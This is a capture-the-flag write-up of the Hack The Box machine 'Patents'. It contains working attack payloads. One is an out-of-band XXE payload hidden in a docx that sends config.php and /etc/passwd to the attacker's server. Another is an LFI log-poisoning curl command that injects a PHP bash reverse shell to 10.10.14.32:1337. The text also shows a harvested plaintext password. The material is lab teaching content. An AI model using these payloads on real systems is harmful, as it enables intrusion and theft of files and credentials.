






# Patents


Patents was a hard Hard box. It falls under linux and hard category. Especially to get the root was the tough one where I had to build my own script to exploit the `ROP` in the server.
<!--more-->
---

# HTB:Patents

Patents was a hard Hard box. It falls under linux and hard category. Especially to get the root was the tough one where I had to build my own script to exploit the `ROP` in the server. And I will be describing detail about the `ROP` in next post stay tuned. I’ll approach this write-up how I solved it, along with the problems that I had to face during this box. At first I obtained the user flag by exploiting `XXE` and got  `LFI` vulnerability api where I poised it and got a user shell. For root, I recovered the deleted files of git and exploited the `ROP` in elf file of lfmserver then `mount` to get a root flag.

## Box Details



In above picture IP was 10.10.10.173 and added it to `/etc/hosts/` as `patents.htb`. Let's solve this box.

## Recon

Let's start with our universal port scanner, nmap to see the open ports and ports `SSH(22)`, `HTTP(80)` and `lfm(8888)` are opened.

```python
# Nmap 7.80 scan initiated Tue Apr  7 12:47:04 2020 as: nmap -sS -sV -sC -Pn -oA nmap --min-rate 1000 10.10.10.173
Nmap scan report for patents.htb (10.10.10.173)
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:b6:84:a7:a7:f3:c2:4f:38:db:fc:2a:dd:26:4e:67 (RSA)
|   256 b1:cd:18:c7:1d:df:57:c1:d2:61:31:89:9e:11:f5:65 (ECDSA)
|_  256 73:37:88:6a:2e:b8:01:4e:65:f7:f8:5e:47:f6:10:c4 (ED25519)
80/tcp   open  http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: MEOW Inc. - Patents Management
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   Help, LPDString, LSCP: 
|_    LFM 400 BAD REQUEST
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8888-TCP:V=7.80%I=7%D=4/7%Time=5E8C257D%P=x86_64-pc-linux-gnu%r(LSC
SF:P,17,"LFM\x20400\x20BAD\x20REQUEST\r\n\r\n")%r(Help,17,"LFM\x20400\x20B
SF:AD\x20REQUEST\r\n\r\n")%r(LPDString,17,"LFM\x20400\x20BAD\x20REQUEST\r\
SF:n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr  7 12:48:57 2020 -- 1 IP address (1 host up) scanned in 112.74 seconds

```

### Web Enumeration

As soon as I saw port 80 opened I visited and got the output.



So seems like the website was related to the patent management account of the admin user `Ajeje Brazorf` and found the upload as the interesting dir where I can upload the files in `docx` format. Besides that I searched for the more directory with `dirsearch` my usual tool but nothing was found there. then I used dirsearch with `raft-large-directories.txt` as `wordlist` then I got this as output.

```python
root@gr4n173:~$ gobuster dir -u http://patents.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -t 130
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://patents.htb/
[+] Threads:        130
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/16 13:01:36 Starting gobuster
===============================================================
/upload (Status: 200)
/uploads (Status: 301)
/profile (Status: 200)
/index (Status: 200)
/patents (Status: 301)
/static (Status: 301)
/vendor	(Status: 301)
/output (Status: 301)
/release (Status: 301)

```
And then I used same in directory inside every `301` responses but nothing found and at last I used the `raft-large-words.txt` directory which took a long time but valid directory was found.
`/releases/UpdateDetails`. Then I visited and got this as output.


This website gave me the full description about the `Docx2Pdf` upload feature and it's vulnerability especially 

1. Directory traversal
2. Local file inclusion (parameter)

which was eye catching one.

### File upload to XXE

As upload feature was `doc2pdf` so first thing that comes in my mind after seeing the `.doc` format was only about the XXE vulnerability.  I first tried by uploading the normal `.docx` file and I found a `pdf` file of that docx file to check if that upload function is working or not. Then I used `Exploiting XXE using Out-Of-Band(OOB) technique`. Let me explain with the steps that I used to create the payload, at first I created a payload in `defaultXml` files and uploaded but unable to exploit so I used the `customXml file` to create my payload and that way worked. To learn more about `XXE` visit [Portswigger](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band).

>  Unzipped the .docx

>  Creating the payload

>  Zipped the same file

### Unzip .docx file

At first I unzipped the file with command and got the following dir as 

```python
root@gr4n173~$ unzip -u file.docx
inflating: word/numbering.xml
inflating: word/_rels/fontTable.xml.rels
inflating: _rels/.rels
inflating: [Content_Types].xml
inflating: DS_Store
inflating: docProps/app.xml
inflating: docProps/core.xml
inflating: dtd.xml
```

### Creating the payload

I created the payload in `customXml folder` where I used the paramter entity(%) as regular entity(&) didn't worked at first.

**/customXml/item1.xml**

```python
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sys SYSTEM "http://10.10.14.32:8000/dtd.xml">
%sys;
%res;
]>
<r>&exfil;</r>
```
Then I edited the `dtd.xml` files with `php wrapper` inside it to read the `config.php` file as that `Web`  was vulnerable to `LFI`.

**dtd.xml**

```python
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=config.php"> 
<!ENTITY % res "<!ENTITY exfil SYSTEM 'http://10.10.14.32:8000/dtd.xml?%data;'>">
```

### Zipped the file

At last I zipped the file with my payload inside it 

```python
root@gr4n173:~$ zip -u TES-4.docx customXml/item1.xml
```

After zipped the `.docx` file I uploaded the file with `python server on` in dir of `dtd.xml` file then I got the response in python server in base64 encoded format. 

**Python3 Server on**

```python
root@gr4n173:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.173 - - [16/May/2020 14:02:25] "GET /dtd.xml HTTP/1.0" 200 -
10.10.10.173 - - [16/May/2020 14:02:26] "GET /dtd.xml?PD9waHAKIyBuZWVkZWQgYnkgY29udmVydC5waHAKJHVwbG9hZGlyID0gJ2xldHNnby8nOwoKIyBuZWVkZWQgYnkgZ2V0UGF0ZW50LnBocAojIGdieW9sbzogSSBtb3ZlZCBnZXRQYXRlbnQucGhwIHRvIGdldFBhdGVudF9hbHBoYXYxLjAucGhwIGJlY2F1c2UgaXQncyB2dWxuZXJhYmxlCmRlZmluZSgnUEFURU5UU19ESVInLCAnL3BhdGVudHMvJyk7Cj8+Cgo= HTTP/1.0" 200 -
```
As we used the `php wrapper` inside the file `dtd.xml` to read a `config.php` file so we got the configuration after decoding.

```python
root@gr4n173~$ echo "PD9waHAKIyBuZWVkZWQgYnkgY29udmVydC5waHAKJHVwbG9hZGlyID0gJ2xldHNnby8nOwoKIyBuZWVkZWQgYnkgZ2V0UGF0ZW50LnBocAojIGdieW9sbzogSSBtb3ZlZCBnZXRQYXRlbnQucGhwIHRvIGdldFBhdGVudF9hbHBoYXYxLjAucGhwIGJlY2F1c2UgaXQncyB2dWxuZXJhYmxlCmRlZmluZSgnUEFURU5UU19ESVInLCAnL3BhdGVudHMvJyk7Cj8+Cgo=" | base64 -d
<?php
# needed by convert.php
$uploadir = 'letsgo/';
# needed by getPatent.php
# gbyolo: I moved getPatent.php to getPatent_alphav1.0.php because it's vulnerable
define('PATENTS_DIR', '/patents/');
?>
```
Here I found the dir `getPatent_alphav1.0.php` inside the dir `/patents/`. This indicated exploit for XXE vulnerability was succeed so I tried reading the `/etc/passwd` file for that I just changed the file `dtd.xml` as

```python
root@gr4n173:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.173 - - [16/May/2020 14:11:57] "GET /dtd.xml HTTP/1.0" 200 -
10.10.10.173 - - [16/May/2020 14:11:58] "GET /dtd.xml?cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCl9hcHQ6eDoxMDA6NjU1MzQ6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpnYnlvbG86eDoxMDAwOjEwMDA6Oi9ob21lL2dieW9sbzovYmluL2Jhc2gK HTTP/1.0" 200 -
``` 

decoded that base64 text and got the `/etc/passwd` data.https://medium.com/@noobintheshell/htb-patents-88bfdbde4c5a

```python
root@gr4n173:~$ echo "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCl9hcHQ6eDoxMDA6NjU1MzQ6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpnYnlvbG86eDoxMDAwOjEwMDA6Oi9ob21lL2dieW9sbzovYmluL2Jhc2gK" | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
gbyolo:x:1000:1000::/home/gbyolo:/bin/bash
```
This way I can see the user `www-data`and `gbyolo` shell. Now I had to poison the LFI server to get the shell.

## LFI to www-data

As I got `/getPatent_alphav1.0.php` dir I checked that dir and got this as output.




This indicated that, there was `?id` parameter which saved my time to find a parameter for `LFI` vulnerability. Now I used that parameter and able to see the `patents items` of admin user. But I tried the every possible way to find the `LFI` and at last I got the clue. As I enter `1` as value in parameter I can see the details of the patents item. Likewise I tried with `../1` which was basic dir to find the `LFI` and got the same patents item output.





This indicated that using `../` doesn't make sense so I had to try that again i.e. `....//` as there there `5` patents items. I used that 5 times to see if I can access the `/etc/passwd` file
as `?id=....//....//....//....//....//etc/passwd` .





Nice this way I got the LFI vulnerability and now I had to poison it to get the `RCE`. Then I tried looking for `/var/log/apache.log` file to see if I can access that file so that I can poison it but that didn't worked. So we have to use  `/proc/self/fd/{number}` dir where we can access the log file if incase we was unable to access `apache.log` file.
Now to find the `number` I used the `burpsuite` to bruteforce and found the `number=2` which gave `200` response.





This way I can access the log file so I tried poisoning it for that I used with listner on.


```python
root@gr4n173:~$ curl --referer "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.10.14.32/1337 0>&1'\"); ?>"  "http://patents.htb/getPatent_alphav1.0.php/?id=....//....//....//....//....//....//....//proc//self//fd//2"
```

**Listner On:**

```python
root@gr4n173:~$ nc -lvnp 1337
listening on [any] 1337 ...                                                                                                                           
connect to [10.10.14.187] from (UNKNOWN) [10.10.10.173] 57008                                           
whoami                                                                                                                                                
www-data                                                                                                                                              
python -c "import pty;pty.spawn('/bin/bash')"                                                                                                         
www-data@d9cf3b2a6944:/var/www/html/docx2pdf$
```
This way I got the `www-data` shell. You can learn more about LFI Poisoning [here](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/).

## Www-data to User

As I got the www-data shell first thing I will try is using `linEnum.sh` and `pspy64` to see the files and command that was used  . Then from the `pspy64` output I got the creds of user `gbyolo` user and I was able to login into the shell.

```python
www-data@d9cf3b2a6944:/tmp/$./pspy64
.....
......
/bin/sh -c env PASSWORD="!gby0l0r0ck$$!" /opt/checker_client/run_file.sh  2
python checker.py 10.100.0.1:8888 lfmserver_user PASSWORD /var/www/html/docx2pdf/convert.php 
```

This way I got the root container and `user.txt` flag.

```python
www-data@d9cf3b2a6944:/tmp/$ su -i gbyolo
Password:!gby0l0r0ck$$!
root@2ca604911b14:# whoami 
gbyolo
root@2ca604911b14:#cat user.txt
0afdf89***************
```
This way I got the user shell and flag.

## Root

As soon as I got the root container I checked every part of the shell and got the dir `/opt/checker_client` and `/opt/checker_runned` besides these dir I found initialization folder of  `.git` inside `/usr/src/` directory. So I check `git log`. To learn more about git commands visit [here](https://git-scm.com/).

```php
root@2ca604911b14:/usr/src/lfm# git log --diff-filter=D --summary | grep delete
<it# git log --diff-filter=D --summary | grep delete
 delete mode 100644 README
 delete mode 100755 lfmserver
 delete mode 100644 Makefile
 delete mode 100644 README
 delete mode 100644 arg_parsing.c
 delete mode 100644 arg_parsing.h
 delete mode 100644 file.c
 delete mode 100644 file.h
 delete mode 100644 files/try
 delete mode 100644 lfm.c
 delete mode 100644 lfm.h
 delete mode 100644 lfmserver.c
 delete mode 100644 lfmserver.conf
 delete mode 100644 lfmserver.h
 delete mode 100644 log.c
 delete mode 100644 log.h
 delete mode 100644 md5.c
 delete mode 100644 md5.h
 delete mode 100644 params_parsing.c
 delete mode 100644 params_parsing.h
 delete mode 100644 process.c
 delete mode 100644 process.h
 delete mode 100644 socket_io.c
 delete mode 100644 socket_io.h
 delete mode 100644 thread.c
 delete mode 100644 thread.h
```
 From here I got the deleted files so I recovered this files by compressing the file as tar and encoding to base64 and then copied to the localhost.
 
```
root@2ca604911b14:/usr/src/lfm# tar cvzf repo.tar .git/
root@2ca604911b14:/usr/src/lfm# cat repo.tar | base64 > file.txt
root@2ca604911b14:/usr/src/lfm# cat file.txt
.......
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
